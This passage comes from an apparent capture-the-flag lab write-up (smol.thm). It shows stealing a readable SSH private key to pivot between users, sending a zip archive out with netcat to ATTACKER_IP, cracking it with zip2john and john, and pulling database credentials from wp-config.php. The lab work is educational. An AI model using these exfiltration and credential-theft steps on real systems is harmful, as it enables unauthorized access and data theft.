 **Objective**
The objective was to enumerate the filesystem for sensitive files accessible by the `diego` user.

**Post-Exploitation Enumeration and Discovery**
Systematic enumeration of `/home` revealed that `/home/think/.ssh/` was readable. Inside, the private SSH key `id_rsa` was also readable by `diego`.

**Exploitation**
The key was copied to the attacker machine. Its permissions were restricted:

```bash
# On attacker machine, after pasting key into 'think_id_rsa'
chmod 600 think_id_rsa
```

The key was then used to authenticate as `think` via SSH:

```bash
ssh -i think_id_rsa think@smol.thm
```

---

### C. Path to xavi: Breaking Encrypted Archives

**Discovery**
While enumerating as `think`, a file named `wordpress.old.zip` was discovered in `/home/gege`. The name suggested it was a backup archive, often containing sensitive information.

**Cracking the Archive**
The archive was password-protected. Steps to crack it:

**Transfer the file:**

```bash
# On target machine
nc ATTACKER_IP 4444 < /home/gege/wordpress.old.zip

# On attacker machine
nc -lvnp 4444 > wordpress.old.zip
```

**Extract a crackable hash:**

```bash
zip2john wordpress.old.zip > zip_hash
```

**Crack the hash with a wordlist:**

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt zip_hash
```

The cracked password was: `hero_gege@hotmail.com`.

**Extracting New Credentials and Pivoting**
After unzipping, a `wp-config.php` file was found containing credentials for user `xavi`:

```
DB_USER: 'xavi'
DB_PASSWORD: 'Passwordxavia'
```
